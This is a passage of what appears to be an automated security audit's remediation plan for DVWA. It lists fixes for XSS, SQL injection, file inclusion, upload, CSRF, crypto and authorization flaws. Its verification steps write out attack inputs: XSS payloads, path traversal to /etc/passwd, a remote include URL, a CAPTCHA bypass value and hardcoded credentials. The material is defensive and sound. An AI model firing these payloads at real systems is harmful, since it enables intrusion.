**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/authbypass/authbypass.js:45`

**How:**

1. In `authbypass.js`, create the input elements with `document.createElement` and set their value property instead of concatenating HTML into `innerHTML`.
2. Encode user name fields with htmlspecialchars server-side at every security level, or validate them on update.

**Verification:** Through `change_user_details`, store a `first_name` containing ">&lt;img `src=x` `onerror=alert`(1)&gt;. Load the authbypass page as admin and confirm that no alert fires and the literal text appears in the input.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-020"></a>
#### M-020 — HTML-escape log fields when rendering access log

**Addresses:**

- 🟠 [F-012](#f-012) — Stored XSS

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/bac/index.php:71`

**How:**

1. Wrap every log field rendered in `index.php` lines 68-72 with `htmlspecialchars($v, ENT_QUOTES, 'UTF-8')`.
2. Validate the stored IP with `filter_var(FILTER_VALIDATE_IP)` before insert.

**Verification:** Send X-Forwarded-For: &lt;svg `onload=alert`(1)&gt;, reload the BAC page, and confirm the literal text is shown and no script executes.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-021"></a>
#### M-021 — Encode output instead of bypassing the framework sanitizer (F-013)

**Addresses:**

- 🟠 [F-013](#f-013) — DOM-based XSS from URL default parameter written

**Weaknesses addressed:** [W-006](#w-006)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/xss_d/index.php:53`

**How:**

1. Parse the parameter with URLSearchParams and check it on the client against a fixed language allowlist before using it.
2. Create option elements with `document.createElement` and set value and `textContent` instead of using `document.write`.

**Verification:** At each level, load `xss_d/?default`=&lt;script&gt;`alert(1)`&lt;`/script`&gt; and ?`default=English`#default=&lt;`/option`&gt;&lt;img `src=x` `onerror=alert`(1)&gt;. Confirm that no script runs and that the option text shows the literal string.

**Reference:** [OWASP Cheat Sheet: DOM Based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

---

<a id="m-022"></a>
#### M-022 — Use prepared statements

**Addresses:**

- 🟠 [F-014](#f-014) — SQL injection
- 🟠 [F-015](#f-015) — SQL injection

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `dvwa/includes/DBMS/MySQL.php:37`

**How:** Use prepared statements (PDO `bindParam` / mysqli placeholders / Eloquent bindings).

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the INJ-PHP-001 scanner check; it reports no match at `dvwa/includes/DBMS/MySQL.php:37`, and the regression test passes.

---

<a id="m-032"></a>
#### M-032 — Replace Referer substring check with anti-CSRF token

**Addresses:**

- 🟠 [F-025](#f-025) — CSRF check bypass

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-352](https://cwe.mitre.org/data/definitions/352.html) - Cross-Site Request Forgery (CSRF)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/csrf/source/medium.php:5`

**How:**

1. Use synchronizer tokens validated with `checkToken`.
2. If origin checks are kept, parse the `Origin` header and compare the host exactly.

**Verification:** Run an automated test asserting that a request whose Referer host merely contains the server name is rejected.

**Reference:** [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

---

<a id="m-033"></a>
#### M-033 — Remove secret dumping step from vulnerable workflow

**Addresses:**

- 🟠 [F-026](#f-026) — All repository secrets dumped base64-encoded to workflow

**Weaknesses addressed:** [W-014](#w-014)

**Prevents CWEs:**

- [CWE-532](https://cwe.mitre.org/data/definitions/532.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/vulnerable.yml:54`

**How:**

1. Delete the `get_secrets` job from `.github/workflows/vulnerable.yml`, or the whole workflow if it serves only as a demo.
2. Never pass `toJSON(secrets)` into a step; reference only the individual secrets a step needs.
3. Rotate `DVWA_SECRET_KEY` and any other repository secrets that have been exposed in historical run logs, and delete those logs.

**Verification:** Run `grep -rn "toJSON(secrets)\|base64" .github/workflows/` and confirm no match remains in any step that handles secrets; inspect the next master run log for absence of encoded output.

**Reference:** [CWE-532: Insertion of Sensitive Information into Log File](https://cwe.mitre.org/data/definitions/532.html)

---

<a id="m-034"></a>
#### M-034 — Constrain file paths to a safe base directory

**Addresses:**

- 🟠 [F-028](#f-028) — Path traversal in source viewer discloses

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-22](https://cwe.mitre.org/data/definitions/22.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/view_source.php:63`

**How:**

1. Accept id only from the known module list and security only from low, medium, high and impossible, and return Not found for any other value before calling `file_get_contents`.
2. Resolve the final path with realpath and verify that it lies under vulnerabilities/`&lt;id&gt;``/source/`.

**Verification:** Request `view_source.php`?`id=fi`&`security=`../../..`/config/config.inc` and confirm that the response is Not found with no file contents.

**Reference:** [CWE-22: Path Traversal](https://cwe.mitre.org/data/definitions/22.html)

---

<a id="m-036"></a>
#### M-036 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🟠 [F-030](#f-030) — Unsalted MD5 password hashing

**Weaknesses addressed:** [W-008](#w-008)

**Prevents CWEs:**

- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/brute/source/low.php:9`

**How:**

1. Store passwords with `password_hash(PASSWORD_DEFAULT)` and verify them with `password_verify`.
2. Migrate existing `MD5` hashes when each user next logs in.

**Verification:** Inspect the users table after a password change and confirm the stored value has the \$2y\$ or \$argon2 prefix.

**Reference:** [OWASP Cheat Sheet: Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)

---

<a id="m-037"></a>
#### M-037 — Restrict included files to a fixed allowlist

**Addresses:**

- 🟠 [F-032](#f-032) — Unvalidated page parameter passed to PHP include

**Prevents CWEs:**

- [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/fi/index.php:36`

**How:**

1. Apply the `impossible.php` allowlist (`in_array` with strict comparison) at every security level, or map the page parameter to a fixed array of allowed files and include only entries from that map.
2. Reject values that contain path separators or stream wrappers, and confirm that the realpath lies inside the fi directory.
3. Set `allow_url_include=Off` and restrict `open_basedir` to the application directory.

**Verification:** Request ?`page=`../../../..`/etc/passwd` and ?page=`http://example.com/x.txt` at each level. Confirm that the response is 'File not found' and contains no file contents such as root:x:0:0.

**Reference:** [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

---

<a id="m-038"></a>
#### M-038 — Allowlist exact include filenames

**Addresses:**

- 🟠 [F-033](#f-033) — File inclusion
- 🟠 [F-034](#f-034) — File inclusion

**Prevents CWEs:**

- [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/fi/source/high.php:7`

**How:**

1. Compare the page parameter against an exact list of allowed filenames.
2. Reject values that contain a scheme or path separator.
3. Map the page parameter to a fixed array of allowed filenames.
4. Disable `allow_url_include` in the PHP configuration.

**Verification:** Run an automated test asserting that only `file1.php` through `file3.php` and `include.php` are accepted.

**Reference:** [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

---

<a id="m-039"></a>
#### M-039 — Allowlist image types and randomize stored names

**Addresses:**

- 🟠 [F-035](#f-035) — Unrestricted file upload stores any file under its client name

**Prevents CWEs:**

- [CWE-434](https://cwe.mitre.org/data/definitions/434.html) - Unrestricted Upload of File with Dangerous Type

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/upload/source/low.php:9`

**How:**

1. Allow only image extensions, verify the content server-side, and re-encode the image as `impossible.php` does.
2. Store uploads under randomly generated file names.
3. Store files outside the webroot, or disable script execution in the uploads directory.

**Verification:** Upload a .php file at the low level and confirm that it is rejected and that no file appears in hackable/uploads.

**Reference:** [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

---

<a id="m-040"></a>
#### M-040 — Validate extension and content server-side

**Addresses:**

- 🟠 [F-036](#f-036) — Upload type check trusts client-supplied MIME type

**Prevents CWEs:**

- [CWE-434](https://cwe.mitre.org/data/definitions/434.html) - Unrestricted Upload of File with Dangerous Type

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/upload/source/medium.php:14`

**How:**

1. Ignore the client-declared MIME type and check the file extension against an allowlist.
2. Detect the type server-side with finfo or getimagesize to verify the image content.
3. Re-encode images and store them under random names with a fixed safe extension.

**Verification:** Upload a .php file declared as image/jpeg and confirm that it is rejected.

**Reference:** [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

---

<a id="m-041"></a>
#### M-041 — Use authenticated encryption

**Addresses:**

- 🟠 [F-037](#f-037) — Unauthenticated ECB session token allows block splicing

**Prevents CWEs:**

- [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/medium.php:32`

**How:**

1. Encrypt tokens with AES-256-GCM using a random IV per token, or sign them with an HMAC.
2. Reject tokens that fail tag verification before parsing the JSON.

**Verification:** POST the spliced token from the help page and confirm it is rejected.

**Reference:** [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

---

<a id="m-042"></a>
#### M-042 — Switch token to AEAD with uniform errors

**Addresses:**

- 🟠 [F-038](#f-038) — CBC padding oracle on token check endpoint

**Prevents CWEs:**

- [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/token_library_high.php:126`

**How:**

1. Replace AES-CBC with AES-GCM, or encrypt-then-MAC, and verify the tag before decryption.
2. Return one generic error for every token failure and drop the exception message from 'extra'.

**Verification:** Run `oracle_attack.php` against `check_token_high.php` and confirm it cannot distinguish padding failures.

**Reference:** [CWE-649](https://cwe.mitre.org/data/definitions/649.html)

---

<a id="m-043"></a>
#### M-043 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🟠 [F-039](#f-039) — Admin-only user endpoints gated

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/authbypass/change_user_details.php:11`

**How:**

1. Call `dvwaPageStartup(array('authenticated'))` and require `dvwaCurrentUser()`==='admin' on both endpoints, independent of security level.
2. Keep the security level in the server session rather than trusting the security cookie in `dvwaSecurityLevelGet`.

**Verification:** Without a session and with Cookie `security=low`, POST to `change_user_details.php` and GET `get_user_data.php`. Both must return Access denied with HTTP 403.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-076"></a>
#### M-076 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🟡 [F-076](#f-076) — Help page evals contents

**Weaknesses addressed:** [W-010](#w-010)

**Prevents CWEs:**

- [CWE-94](https://cwe.mitre.org/data/definitions/94.html) - Code Injection

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/view_help.php:20`

**How:**

1. Validate id against the fixed list of module directories and locale against the supported locales.
2. Resolve the path with realpath and require it to lie under vulnerabilities/.
3. Render the help file with include of the validated path, or as static HTML, instead of eval.

**Verification:** Request `view_help.php`?`id=`../../x&`security=low`&`locale=en` and confirm it returns Not Found and evaluates no file.

---

<a id="m-082"></a>
#### M-082 — Allowlist client-controlled fields

**Addresses:**

- 🟡 [F-082](#f-082) — Unauthenticated user API allows mass assignment

**Weaknesses addressed:** [W-012](#w-012)

**Prevents CWEs:**

- [CWE-915](https://cwe.mitre.org/data/definitions/915.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/api/src/UserController.php:225`

**How:**

1. Drop the level field from `updateUser` and `addUser` input, or accept it only from an authenticated admin token.
2. Add a `checkToken`-style authorization gate to every UserController mutation.

**Verification:** Send PUT `/vulnerabilities/api/v2/user/2` with level 0 and no token. Confirm the response is 401, or that the returned level is unchanged.

**Reference:** [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes (Mass Assignment)](https://cwe.mitre.org/data/definitions/915.html)

---

### P3 — Next Quarter

<a id="m-001"></a>
#### M-001 — Manual review: verify SQL injection via interpolated/concatenated query PHP…

**Addresses:**

- 🟠 [F-014](#f-014) — SQL injection

**Weaknesses addressed:** [W-002](#w-002)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `dvwa/includes/DBMS/MySQL.php:37`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`dvwa/includes/DBMS/MySQL.php:37`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-002"></a>
#### M-002 — Manual review: verify SQL injection via interpolated/concatenated query PHP…

**Addresses:**

- 🟠 [F-015](#f-015) — SQL injection

**Weaknesses addressed:** [W-002](#w-002)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `dvwa/includes/dvwaPage.inc.php:571`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`dvwa/includes/dvwaPage.inc.php:571`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-003"></a>
#### M-003 — Manual review: verify Stored XSS payloads accepted into guestbook entries

**Addresses:**

- 🟡 [F-066](#f-066) — Stored XSS payloads accepted into guestbook entries

**Weaknesses addressed:** [W-006](#w-006)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/xss_s/source/low.php:16`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/xss_s/source/low.php:16`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-004"></a>
#### M-004 — Manual review: verify Broken hash primitive PHP at impossible.php:19

**Addresses:**

- 🟡 [F-070](#f-070) — Broken hash primitive

**Weaknesses addressed:** [W-008](#w-008)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/captcha/source/impossible.php:19`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/captcha/source/impossible.php:19`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-005"></a>
#### M-005 — Manual review: verify Attacker-triggerable account lockout at impossible.php:88

**Addresses:**

- 🟡 [F-072](#f-072) — Attacker-triggerable account lockout

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/brute/source/impossible.php:88`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`vulnerabilities/brute/source/impossible.php:88`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-006"></a>
#### M-006 — Manual review: verify Container Runs as Root at Dockerfile:1

**Addresses:**

- 🟡 [F-074](#f-074) — Container Runs as Root

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`Dockerfile:1`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-008"></a>
#### M-008 — Dockerfile USER directive

**Addresses:**

- 🟡 [F-074](#f-074) — Container Runs as Root

**Prevents CWEs:**

- [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Add USER `<non-root-uid>` - Containers running as root expand container-escape blast radius.

1. Add USER `<non-root-uid>`
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-002 scanner check; it reports no match at `Dockerfile:1`, and the regression test passes.

---

<a id="m-009"></a>
#### M-009 — Apply least-privilege permissions

**Addresses:**

- 🟡 [F-075](#f-075) — Missing Workflow Permissions Block

**Weaknesses addressed:** [W-011](#w-011)

**Prevents CWEs:**

- [CWE-732](https://cwe.mitre.org/data/definitions/732.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/codeql-analysis.yml:20`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed - Without an explicit permissions block at workflow or job level, the job inherits the repository default (commonly write-all) for `GITHUB_TOKEN` - any compromised step can push code, create releases, or approve PRs.

1. Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the IAC-010 scanner check; it reports no match at `.github/workflows/codeql-analysis.yml:20`, and the regression test passes.

---

<a id="m-012"></a>
#### M-012 — Return generic error messages to clients

**Addresses:**

- 🟡 [F-003](#f-003) — Raw Database Error Disclosure to Client

**Prevents CWEs:**

- [CWE-209](https://cwe.mitre.org/data/definitions/209.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/brute/source/low.php:13`

**How:**

1. Replace `die(mysqli_error(...))` with a generic message and write the details to a server-side log.
2. Disable `display_errors` in production.

**Verification:** Send username=' and confirm the response contains no MySQL error text.

**Reference:** [CWE-209: Generation of Error Message Containing Sensitive Information](https://cwe.mitre.org/data/definitions/209.html)

---

<a id="m-044"></a>
#### M-044 — Use Docker secrets with strong random DB passwords

**Addresses:**

- 🟡 [F-040](#f-040) — Hardcoded weak MariaDB root and application credentials

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `compose.yml:31`

**How:**

1. Replace the `MYSQL_ROOT_PASSWORD` and `MYSQL_PASSWORD` literals with `MYSQL_ROOT_PASSWORD_FILE` and `MYSQL_PASSWORD_FILE` pointing at Docker secrets generated per deployment.
2. Or set `MARIADB_RANDOM_ROOT_PASSWORD`=yes so no static root password exists, and pass the app password to the web container through the same secret.

**Verification:** Run `docker compose config` and confirm it shows no plaintext password values. Then confirm `mysql -uroot -pdvwa -h db` from the web container fails.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-045"></a>
#### M-045 — Add login rate limiting and lockout

**Addresses:**

- 🟡 [F-041](#f-041) — Login lacks attempt throttling or lockout

**Prevents CWEs:**

- [CWE-307](https://cwe.mitre.org/data/definitions/307.html) - Improper Restriction of Excessive Authentication Attempts

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `login.php:41`

**How:**

1. Track `failed_login` per user and per source IP and reject attempts beyond a threshold with increasing delay.
2. Reset counters on successful login and log lockout events.

**Verification:** Script 20 failed logins for admin and confirm subsequent correct login is rejected during lockout.

**Reference:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

---

<a id="m-046"></a>
#### M-046 — Add per-account and per-IP login throttling

**Addresses:**

- 🟡 [F-042](#f-042) — No login attempt limiting on brute-force form

**Prevents CWEs:**

- [CWE-307](https://cwe.mitre.org/data/definitions/307.html) - Improper Restriction of Excessive Authentication Attempts

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/brute/source/low.php:12`

**How:**

1. Track failed attempts per account and per client IP, and apply progressive delays or a CAPTCHA after a threshold.
2. Move credentials to POST and log failed attempts.

**Verification:** Script 50 bad logins and confirm that later attempts are rejected or throttled.

**Reference:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

---

<a id="m-047"></a>
#### M-047 — Load token signing key from secret store

**Addresses:**

- 🟡 [F-043](#f-043) — Hardcoded encryption key and static secret allow API token

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-321](https://cwe.mitre.org/data/definitions/321.html) - Use of Hard-coded Cryptographic Key

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/api/src/Token.php:10`

**How:**

1. Replace `ENCRYPTION_KEY` and the ACCESS/REFRESH_TOKEN_SECRET constants with random keys loaded from the environment or a secret store.
2. Bind the token to a subject and a random jti, and reject tokens with excessive expiry.

**Verification:** Present a token forged with the old 'Paintbrush' key to `/vulnerabilities/api/v2/order/` and confirm the response is 401.

**Reference:** [CWE-321: Use of Hard-coded Cryptographic Key](https://cwe.mitre.org/data/definitions/321.html)

---

<a id="m-048"></a>
#### M-048 — Rotate the session identifier on authentication

**Addresses:**

- 🟡 [F-044](#f-044) — Session fixation

**Prevents CWEs:**

- [CWE-384](https://cwe.mitre.org/data/definitions/384.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `dvwa/includes/dvwaPage.inc.php:103`

**How:**

1. Call `session_regenerate_id(true)` after successful authentication regardless of security level.
2. Set Secure, HttpOnly and SameSite cookie flags for all levels.

**Verification:** Log in with a pre-set PHPSESSID cookie and confirm the response sets a different session id.

**Reference:** [OWASP: Session Fixation](https://owasp.org/www-community/attacks/Session_fixation)

---

<a id="m-049"></a>
#### M-049 — Remove hardcoded CAPTCHA bypass branch

**Addresses:**

- 🟡 [F-045](#f-045) — Debug CAPTCHA backdoor left in production code

**Prevents CWEs:**

- [CWE-489](https://cwe.mitre.org/data/definitions/489.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/captcha/source/high.php:20`

**How:**

1. Delete the `hidd3n_valu3` and User-Agent condition so the code relies only on \$resp.
2. Remove the DEV NOTE HTML comment from `captcha/index.php`.

**Verification:** POST with the bypass value and User-Agent `reCAPTCHA` and confirm 'The CAPTCHA was incorrect' is returned.

**Reference:** [CWE-489](https://cwe.mitre.org/data/definitions/489.html)

---

<a id="m-050"></a>
#### M-050 — Accept login credentials only in POST bodies over TLS

**Addresses:**

- 🟡 [F-046](#f-046) — Login passwords submitted in GET query strings

**Weaknesses addressed:** [W-015](#w-015)

**Prevents CWEs:**

- [CWE-598](https://cwe.mitre.org/data/definitions/598.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/brute/source/low.php:8`

**How:**

1. Change the forms to `method=POST` and read credentials from \$_POST only, rejecting GET.
2. Serve the application over HTTPS only, and exclude credential parameters from logs.

**Verification:** Submit the login and confirm the access log line for the request contains no password parameter. A GET with password= must be rejected.

---

<a id="m-051"></a>
#### M-051 — Use exact-match redirect allowlist

**Addresses:**

- 🟡 [F-047](#f-047) — Open redirect substring allow check bypassable

**Prevents CWEs:**

- [CWE-601](https://cwe.mitre.org/data/definitions/601.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/open_redirect/source/high.php:5`

**How:**

1. Replace strpos with an exact match against known relative targets.
2. Reject absolute and protocol-relative URLs.

**Verification:** Confirm that an external URL containing `info.php` is rejected.

**Reference:** [CWE-601: URL Redirection to Untrusted Site (Open Redirect)](https://cwe.mitre.org/data/definitions/601.html)

---

<a id="m-052"></a>
#### M-052 — Map redirect IDs to an allowlist of targets

**Addresses:**

- 🟡 [F-048](#f-048) — Open redirect to arbitrary URL

**Prevents CWEs:**

- [CWE-601](https://cwe.mitre.org/data/definitions/601.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/open_redirect/source/low.php:4`

**How:**

1. Replace the free-form parameter with ID-to-target mapping, as `impossible.php` does.
2. Reject any value that is not on the allowlist.

**Verification:** Request `low.php` with an external redirect value and confirm that no Location header is returned.

**Reference:** [CWE-601: URL Redirection to Untrusted Site (Open Redirect)](https://cwe.mitre.org/data/definitions/601.html)

---

<a id="m-053"></a>
#### M-053 — Replace scheme denylist with target allowlist

**Addresses:**

- 🟡 [F-049](#f-049) — Open redirect scheme denylist bypassable

**Prevents CWEs:**

- [CWE-601](https://cwe.mitre.org/data/definitions/601.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/open_redirect/source/medium.php:11`

**How:**

1. Remove the denylist.
2. Redirect only to allowlisted paths that are selected by ID.

**Verification:** Confirm that a protocol-relative redirect value is rejected.

**Reference:** [CWE-601: URL Redirection to Untrusted Site (Open Redirect)](https://cwe.mitre.org/data/definitions/601.html)

---

<a id="m-054"></a>
#### M-054 — Enforce authorization on the server

**Addresses:**

- 🟡 [F-050](#f-050) — CAPTCHA state trusted from client-supplied field

**Prevents CWEs:**

- [CWE-602](https://cwe.mitre.org/data/definitions/602.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/captcha/source/medium.php:55`

**How:**

1. Set `$_SESSION['passed_captcha']` after `recaptcha_check_answer` succeeds, and check it in step 2.
2. Clear the session flag after it is used.

**Verification:** POST `step=2` with `passed_captcha=true` and no prior CAPTCHA, and confirm the request is rejected.

**Reference:** [CWE-602: Client-Side Enforcement of Server-Side Security](https://cwe.mitre.org/data/definitions/602.html)

---

<a id="m-055"></a>
#### M-055 — Verify API credentials against hashed user store

**Addresses:**

- 🟡 [F-051](#f-051) — Hardcoded client secret and user password in API login

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/api/src/LoginController.php:96`

**How:**

1. Remove the literal credentials and verify the user against hashed passwords in the database with `password_verify`.
2. Store client secrets outside the code and compare them with `hash_equals`.

**Verification:** Confirm that the mrbennett/becareful login fails after the credentials are rotated and removed from source.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-056"></a>
#### M-056 — Replace the constant URL token with session authorization

**Addresses:**

- 🟡 [F-052](#f-052) — Static access token accepted from the URL query string

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/bac/source/medium.php:26`

**How:**

1. Remove the hardcoded token check and authorize using the authenticated session and the target user's ownership or role.
2. Never accept credentials or tokens in query strings; read them from headers or the session.

**Verification:** Request the medium BAC page with `user_id` of another user and `token=user_token` as a non-owner, and assert that access is denied.

---

<a id="m-057"></a>
#### M-057 — Verify CAPTCHA in the same request as the change

**Addresses:**

- 🟡 [F-053](#f-053) — CAPTCHA bypass by submitting step 2 directly

**Prevents CWEs:**

- [CWE-841](https://cwe.mitre.org/data/definitions/841.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/captcha/source/low.php:45`

**How:**

1. Call `recaptcha_check_answer` in the request that performs the UPDATE.
2. Alternatively, record CAPTCHA success in \$_SESSION and require it in step 2.

**Verification:** POST `step=2`&`password_new=a`&`password_conf=a`&Change=Change without a CAPTCHA and confirm the password is unchanged.

**Reference:** [CWE-841](https://cwe.mitre.org/data/definitions/841.html)

---

<a id="m-058"></a>
#### M-058 — Require a caller-chosen password hashed with password_hash

**Addresses:**

- 🟡 [F-054](#f-054) — API-created users all receive the same default password

**Prevents CWEs:**

- [CWE-1393](https://cwe.mitre.org/data/definitions/1393.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `vulnerabilities/api/src/UserController.php:167`

**How:**

1. Require a password field in the add-user input and validate its strength.
2. Store `password_hash()` of the supplied password instead of a constant `SHA-256` value.

**Verification:** Create two users with the API and confirm their stored hashes differ and are not `sha256('password')`.

---

<a id="m-059"></a>
#### M-059 — Pin base and builder images by sha256 digest

**Addresses:**

- 🟡 [F-055](#f-055) — Container images referenced by floating tags without digest pinning

**Prevents CWEs:**

- [CWE-494](https://cwe.mitre.org/data/definitions/494.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:1`

**How:**

1. Reference the php, composer and mariadb images as name:tag@sha256:`<digest>` in `Dockerfile` and `compose.yml`, for example docker.io/library/mariadb:10.11.x@sha256:`<digest>`.
2. Update the digests only through reviewed Renovate or Dependabot pull requests.
3. Sign and attest the pushed dvwa image and verify the signature before deployment.

**Verification:** Run grep -nE '^FROM|`--from=|image:'` `Dockerfile` `compose.yml` and confirm that every reference, including the `compose.yml` db image, contains @sha256:.

**Reference:** [CWE-494](https://cwe.mitre.org/data/definitions/494.html)

---

<a id="m-060"></a>
#### M-060 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟡 [F-056](#f-056) — Third-party GitHub Actions pinned to mutable tags instead of commit SHAs

**Weaknesses addressed:** [W-018](#w-018)

**Prevents CWEs:**

- [CWE-829](https://cwe.mitre.org/data/definitions/829.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/docker-image.yml:16`

**How:**

1. Replace every uses: reference in .github/workflows with the full 40-character commit SHA, and keep the version in a trailing comment.
2. Enable Dependabot or Renovate for the github-actions ecosystem so SHA pins are updated through reviewed pull requests.
3. Do not pass `GITHUB_TOKEN` to third-party actions such as scan-action unless it is required.
4. Scope `GITHUB_TOKEN` with a permissions block.

